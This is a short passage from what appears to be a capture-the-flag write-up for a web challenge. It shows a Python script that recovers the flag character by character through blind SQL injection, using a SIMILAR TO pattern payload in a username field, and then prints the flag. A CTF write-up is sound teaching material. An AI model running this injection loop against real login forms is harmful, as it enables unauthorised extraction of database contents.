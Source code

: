 ```py
    LENGTH = lengths[2]           # --> 45
    print("flag length: ", LENGTH)

    allowed_characters = get_allowed_characters(URL)     # --> ["'", "_", "{", "}"]

    # bring "_" to last
    allowed_characters = allowed_characters.split("_")[0] + allowed_characters.split("_")[1] + "_"
    print("allowed characters: ", allowed_characters)

    ALPHABET = string.ascii_letters + string.digits + allowed_characters

    flag = "lactf{"
    while "}" not in flag:
        for char in ALPHABET:
            print(char)
            payload = "_" * 6 + char + ("_" * (LENGTH - len(flag) - 1))
            data["username"] = f"' OR NAME SIMILAR TO '{payload}"
            response = requests.post(URL, data=data)
            if "We found a penguin" in response.text:
                flag += char
                print(flag)
                break
```

The flag is
```
lactf{90stgr35_3s_n0t_l7k3_th3_0th3r_dbs_0w0}
```